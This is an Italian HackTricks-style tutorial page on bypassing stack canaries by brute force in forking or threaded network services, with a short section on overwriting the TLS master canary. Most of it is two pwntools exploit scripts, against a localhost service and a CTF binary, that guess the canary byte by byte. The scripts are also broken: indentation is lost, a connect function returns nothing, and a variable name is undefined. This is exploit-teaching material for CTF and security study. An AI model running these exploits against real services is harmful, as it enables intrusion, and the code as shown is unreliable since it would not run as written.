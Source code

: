 # BF Forked & Threaded Stack Canaries

<details>

<summary><strong>Impara l'hacking AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Esperto Red Team AWS di HackTricks)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**La Famiglia PEASS**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

**Se ti trovi di fronte a un binario protetto da un canary e da PIE (Position Independent Executable) probabilmente devi trovare un modo per aggirarli.**

![](<../../../.gitbook/assets/image (862).png>)

{% hint style="info" %}
Nota che **`checksec`** potrebbe non trovare che un binario è protetto da un canary se è stato compilato staticamente e non è in grado di identificare la funzione.\
Tuttavia, puoi notarlo manualmente se trovi che un valore viene salvato nello stack all'inizio di una chiamata di funzione e questo valore viene controllato prima di uscire.
{% endhint %}

## Brute force Canary

Il modo migliore per aggirare un semplice canary è se il binario è un programma che **crea processi figlio ogni volta che si stabilisce una nuova connessione** con esso (servizio di rete), perché ogni volta che ci si connette ad esso **verrà utilizzato lo stesso canary**.

Quindi, il modo migliore per aggirare il canary è semplicemente **forzarlo carattere per carattere**, e puoi capire se il byte del canary indovinato era corretto controllando se il programma è crashato o continua il suo flusso regolare. In questo esempio la funzione **forza un canary di 8 byte (x64)** e distingue tra un byte indovinato correttamente e un byte errato semplicemente **controllando** se viene inviata una **risposta** dal server (in un **altro contesto** potrebbe essere utilizzato un **try/except**):

### Esempio 1

Questo esempio è implementato per 64 bit ma potrebbe essere facilmente implementato per 32 bit.
```python
from pwn import *

def connect():
r = remote("localhost", 8788)

def get_bf(base):
canary = ""
guess = 0x0
base += canary

while len(canary) < 8:
while guess != 0xff:
r = connect()

r.recvuntil("Username: ")
r.send(base + chr(guess))

if "SOME OUTPUT" in r.clean():
print "Guessed correct byte:", format(guess, '02x')
canary += chr(guess)
base += chr(guess)
guess = 0x0
r.close()
break
else:
guess += 1
r.close()

print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
return base

canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary
```
### Esempio 2

Questo è implementato per 32 bit, ma potrebbe essere facilmente modificato per 64 bit.\
Nota inoltre che per questo esempio il **programma si aspetta prima un byte per indicare la dimensione dell'input** e del payload.
```python
from pwn import *

# Here is the function to brute force the canary
def breakCanary():
known_canary = b""
test_canary = 0x0
len_bytes_to_read = 0x21

for j in range(0, 4):
# Iterate up to 0xff times to brute force all posible values for byte
for test_canary in range(0xff):
print(f"\rTrying canary: {known_canary} {test_canary.to_bytes(1, 'little')}", end="")

# Send the current input size
target.send(len_bytes_to_read.to_bytes(1, "little"))

# Send this iterations canary
target.send(b"0"*0x20 + known_canary + test_canary.to_bytes(1, "little"))

# Scan in the output, determine if we have a correct value
output = target.recvuntil(b"exit.")
if b"YUM" in output:
# If we have a correct value, record the canary value, reset the canary value, and move on
print(" - next byte is: " + hex(test_canary))
known_canary = known_canary + test_canary.to_bytes(1, "little")
len_bytes_to_read += 1
break

# Return the canary
return known_canary

# Start the target process
target = process('./feedme')
#gdb.attach(target)

# Brute force the canary
canary = breakCanary()
log.info(f"The canary is: {canary}")
```
## Threads

I thread dello stesso processo condivideranno anche lo stesso **token canary**, quindi sarà possibile **forzare** un canary se il binario genera un nuovo thread ogni volta che avviene un attacco.&#x20;

Inoltre, un **overflow del buffer in una funzione thread** protetta con canary potrebbe essere utilizzato per **modificare il canary principale memorizzato nel TLS**. Questo perché potrebbe essere possibile raggiungere la posizione di memoria in cui è memorizzato il TLS (e quindi il canary) tramite un **bof nello stack** di un thread.\
Di conseguenza, la mitigazione è inutile perché il controllo viene effettuato con due canary che sono gli stessi (sebbene modificati).\
Questo attacco è eseguito nel writeup: [http://7rocky.github.io/en/ctf/htb-challenges/pwn/robot-factory/#canaries-and-threads](http://7rocky.github.io/en/ctf/htb-challenges/pwn/robot-factory/#canaries-and-threads)

Controlla anche la presentazione di [https://www.slideshare.net/codeblue\_jp/master-canary-forging-by-yuki-koike-code-blue-2015](https://www.slideshare.net/codeblue\_jp/master-canary-forging-by-yuki-koike-code-blue-2015) che menziona che di solito il **TLS** è memorizzato da **`mmap`** e quando uno **stack** di **thread** viene creato, è generato anche da `mmap` secondo questo, il che potrebbe consentire l'overflow come mostrato nel writeup precedente.

## Altri esempi e riferimenti

* [https://guyinatuxedo.github.io/07-bof\_static/dcquals16\_feedme/index.html](https://guyinatuxedo.github.io/07-bof\_static/dcquals16\_feedme/index.html)
* 64 bit, no PIE, nx, BF canary, scrivere in qualche memoria un ROP per chiamare `execve` e saltare lì.
